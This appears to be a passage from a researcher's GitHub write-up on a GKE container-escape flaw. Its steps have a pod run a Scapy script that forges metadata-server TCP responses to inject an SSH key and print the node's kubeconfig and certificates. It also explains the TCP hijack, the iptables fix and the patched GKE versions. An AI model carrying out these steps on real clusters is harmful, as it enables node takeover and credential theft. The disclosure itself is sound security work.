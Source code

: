 3.  Copy [metadatascapy.py script](GKE/metadatascapy.py))

    ```
    kubectl cp metadatascapy.py ubuntu-node:/metadatascapy.py
    ```

4.  Connect to the container

    ```
    kubectl exec -ti ubuntu-node -- /bin/bash
    ```
    (the next commands are in the container shell)

5.  Install the needed packages

    ```
    apt update && apt install -y python3-scapy openssh-client
    ```

6.  Generate an ssh key (this is the key that we are going to inject and use to ssh into the host)

    ```
    ssh-keygen -t ed25519 -f /root/.ssh/id_ed25519 -N ""
    ```

7.  Launch the script, wait up to 2min, enjoy

    ```
    python3 /metadatascapy.py
    ```
    (If you see a kubeconfig and some certificates printed, it worked)

To hijack a TCP connection like an HTTP request you need to have the correct TCP sequence numbers, and to respond faster than the server.
As Google is using HTTP long pooling to wait for new SSH keys (1min+), and we can listen to all traffic, it's pretty easy using Scapy to forge TCP packets.

There are 2 ways to inject traffic so it can be received by the same host:
1. use a L2 raw socket and 'lo' interface
2. use a L3 raw socket

In the past, using L2 socket on lo interface was not working so [Scapy FAQ recommend to use L3](https://scapy.readthedocs.io/en/latest/troubleshooting.html#i-can-t-ping-127-0-0-1-scapy-does-not-work-with-127-0-0-1-or-on-the-loopback-interface).
Also GKE nodes were already using `net.ipv4.conf.all.rp_filter = 1` sysctl effectively blocking L2.
To block L3 Google team just added the following iptables rules on GKE nodes
```
iptables -w -t mangle -I OUTPUT -s 169.254.169.254 -j DROP
```

This iptables rule was added in
- 1.19.2-gke.2400
- 1.18.9-gke.2500
- 1.17.12-gke.2500
- 1.16.15-gke.2600

This only fixes GKE, if you are deploying K8S yourself on GCP instances you are likely still vulnerable.
